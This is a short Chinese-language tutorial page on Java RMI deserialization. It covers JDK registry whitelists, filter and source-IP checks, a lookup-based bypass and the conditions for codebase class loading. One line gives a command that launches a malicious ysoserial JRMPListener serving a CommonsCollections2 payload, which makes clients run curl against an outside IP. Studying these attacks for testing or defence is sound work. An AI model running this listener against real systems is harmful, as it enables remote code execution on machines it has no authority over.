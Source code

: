 以jdk8u121来说 新增的白名单有:

- Number.class
- Remote.class
- Proxy.class
- UnicastRef.class
- RMIClientSocketFactory.class
- RMIServerSocketFactory.class
- ActivationID.class
- UID.class

首先在本地开启JRMP恶意server监听 它会像连接此server的客户端发送ysoserial的payload`CommonsCollections2` 来攻击客户端:

`java -cp ysoserial_bypass_jdk8u231.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections2 "curl http://195.1.5.20:9999/a"`



#### 其他错误

`java.io.InvalidClassException: filter status: REJECTED`原因是从JDK8u121开始（包括JDK8u121 加入了 sun.rmi.registry.RegistryImpl#registryFilter 的限制

`java.rmi.AccessException: Registry.Registry.bind disallowed; origin /195.0.1.5 is non-local host`原因是 JDK >= 8u141时 sun.rmi.registry.RegistryImpl#checkAccess 会进行来源IP地址的检查 如果请求的IP地址不是本机的IP地址 则拒绝执行bind操作。

且jdk8u141中的检测只针对了三种操作：bind\rebind\unbind 而没有对lookup进行限制 后续可以修改ysoserial源码绕过

#### Java RMI的codebase动态加载类

可以使用codebase去远程加载class文件,在java rmi通信流程中通过设置`java.rmi.server.codebase`的值为远程class所在的uri

而且整个流程codebase的值可以由客户端控制的,但是有一定的利用条件:

- 安装并配置了SecurityManager

- Java版本低于7u21、6u45，或者设置了 java.rmi.server.useCodebaseOnly=false其中 java.rmi.server.useCodebaseOnly 是在Java 7u21、6u45的时候修改的一个默认设置为true

- 被引用的对象还将受到com.sun.jndi.rmi.object.trustURLCodebase配置限制，如果该值为false(不信任远程引用对象)一样无法调用远程的引用对象。
 
 - JDK 6u132, JDK 7u122, JDK 8u113开始com.sun.jndi.rmi.object.trustURLCodebase默认值已改为了false
SecurityManager决定服务端可不可以远程加载class,useCodebaseOnly为false决定了服务端可以从客户端的codebase加载class

